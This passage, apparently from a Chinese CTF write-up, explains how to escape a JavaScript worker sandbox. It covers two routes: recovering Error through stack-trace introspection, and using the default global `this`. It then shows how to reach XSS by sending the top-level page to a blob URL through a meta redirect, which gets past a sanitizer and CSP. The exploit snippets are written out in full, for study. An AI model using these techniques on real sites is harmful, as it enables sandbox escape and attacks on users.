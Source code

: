 ``` js
// hardening
hardening()
callUserFn()
```

argNames 是搜集所有 global 能存取到的東西的名稱，這樣就可以把所有東西的名稱都當作是函式的參數丟進去，大概就像是底下這種感覺：

``` js
function run(console, Object, String, Number, fetch,...) {
    
}
```

於是你不管拿到什麼都會是 `undefined`，在呼叫時 this 也傳入了 `Object.create(null)`，所以沒辦法輕易跳出來。

Maple 的預期解是利用 try catch 加上錯誤去拿：

``` js
try {
  null.f()
} catch (e) {
  TypeError = e.constructor
}
Error = TypeError.prototype.__proto__.constructor
Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
try{
  null.f()
} catch(e) {
  const g = e.stack[2].getFunction().arguments[0].target
  if (g) { throw { message: g } }
}
```

這招他之前在 DiceCTF 2022 - undefined 這題也用過類似的。

不過對於這題來說有個更容易的解法，利用 this 預設的特性，如下：

``` js
function a() {
   this.console.log('hello') 
}
a()
```

在 JavaScript 裡面，呼叫一個 function 時預設的 this 就會是 global，用這樣就可以繞過限制。

但繞過限制之後要幹嘛呢？在 worker 裡面拿到 XSS 之後好像做不了什麼事情，因為 main thread 的 `setHTML` 會做過濾，而且這題的 CSP 是 `default-src 'self' 'unsafe-eval'`

關鍵就在於 blob URL，可以用 blob 新建一個 HTML 並且載入，這個新 HTML 的 origin 跟原本的是一樣的：

``` js
const u = this.URL.createObjectURL(new this.Blob(['<h1>peko</h1>'], { type: 'text/html' }))
location = u
```

而這題讓我驚訝的地方是原來 `<meta>` 的跳轉也可以跳到 blob URL 去，所以結合 meta redirect 之後就可以把 top level page 變成是自己的 HTML，繞過 sanitizer 的限制。
